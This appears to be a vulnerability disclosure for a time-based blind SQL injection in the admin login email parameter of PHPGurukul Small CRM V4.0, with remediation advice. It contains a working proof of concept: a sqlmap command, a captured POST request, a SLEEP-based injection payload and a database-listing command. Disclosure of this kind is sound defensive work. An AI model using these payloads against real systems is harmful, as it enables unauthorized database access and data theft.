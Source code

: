 # PHPGurukul Small CRM in PHP V4.0 /crm/admin/index.php SQL Injection

## NAME OF AFFECTED PRODUCT(S)

- Small CRM in PHP

## Vendor Homepage

- [Small CRM in PHP](https://phpgurukul.com/small-crm-php/)

## AFFECTED AND/OR FIXED VERSION(S)

### submitter

- YoSheep

### VERSION(S)

- V4.0

### Software Link

- https://phpgurukul.com/?sdm_process_download=1&download_id=10412

## PROBLEM TYPE

### Vulnerability Type

- SQL injection

### Root Cause

- The /crm/admin/index.php component email parameter is directly inserted into SQL statement without proper sanitization or use of prepared statement. Thus, the unsafe practice allows attackers to inject crafted SQL payloads, alerting the intended query logic and executing arbitrary SQL commands in the server.

### Impact

Attackers can exploit this SQL injection vulnerability to achieve unauthorized database access, sensitive data leakage, data tampering, comprehensive system control, and even service interruption, posing a serious threat to system security and business continuity.

## DESCRIPTION

- During a security assessment of the *Small CRM in PHP*, a critical SQL injection vulnerability was identified in the /crm/admin/index.php file. The flaw arises from insufficient validation of the email parameter, which is directly inserted into SQL statement. Exploitation of this flaw allows unauthenticated attackers to inject arbitrary SQL statements, gain access to sensitive data, escalate privileges, and potentially gain control of the application environment. Immediate remediation is strongly advised to mitigate the risk of exploitation.

## Vulnerability Details and Proof of Concept (PoC)

### Vulnerability type:

* Time-based blind SQL injection

### Vulnerability location:

* Parameter: email (POST)

### Proof of Concept Payloads

Using sqlmap, the injection can be demonstrated as follows:

```
python3 sqlmap.py -r sql_data.txt --batch -v 3
// sql_data.txt
POST /crm/admin/index.php HTTP/1.1
Host: xxx.xxx.xxx.xxx
Content-Length: 75
Cache-Control: max-age=0
Origin: http://xxx.xxx.xxx.xxx
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/139.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://xxx.xxx.xxx.xxx/crm/admin/index.php
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: 459c73fc68b74c48fed06cd2049f9e72_ssl=664f4eeb-5d8e-4bb4-aa3e-ba03dd842b3a.acZ3bo2InCUweNQ83hgDkh4-uTI; PHPSESSID=bi4ddv20nbpset9r4ce8e39882
Connection: keep-alive

email=1&password=1&login=
```

Example Findings:

```
---
Parameter: email (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: email=admin' AND (SELECT 6424 FROM (SELECT(SLEEP(5)))LFXp) AND 'yVpu'='yVpu&password=123&login=
    Vector: AND (SELECT [RANDNUM] FROM (SELECT(SLEEP([SLEEPTIME]-(IF([INFERENCE],0,[SLEEPTIME])))))[RANDSTR])
---
```

![image-20250826230829181](https://mac-pic-1314279731.cos.ap-nanjing.myqcloud.com/image-20250826230829181.png)

### Attack Demonstration

An attacker can enumerate databases with the following command:

```
python3 sqlmap.py -r sql_data.txt --batch -v 3 --dbs
```

Example Result:

Extracted list of databases from the backend MySQL server.

![image-20250826231008140](https://mac-pic-1314279731.cos.ap-nanjing.myqcloud.com/image-20250826231008140.png)

## Suggested Remediation

1. **Use Prepared Statements and Parameterized Queries**

   Implement parameterized queries (mysqli or PDO) to ensure user inputs are treated strictly as data, preventing SQL injection.

2. **Implement Input Validation and Sanitization**

   Validate incoming parameters against expected formats (e.g., numeric IDs). Reject or sanitize unexpected input before processing.

3. **Apply the Principle of Least Privilege**

   Restrict the privileges of the database account used by the application. Avoid using high-privilege accounts (e.g., root).

4. **Conduct Regular Security Audits**

   Periodically review source code and perform penetration testing to identify and remediate potential vulnerabilities.

5. **Upgrade Deprecated Libraries**

   Replace legacy mysql_* functions with mysqli or PDO, which provide better security support and long-term maintainability.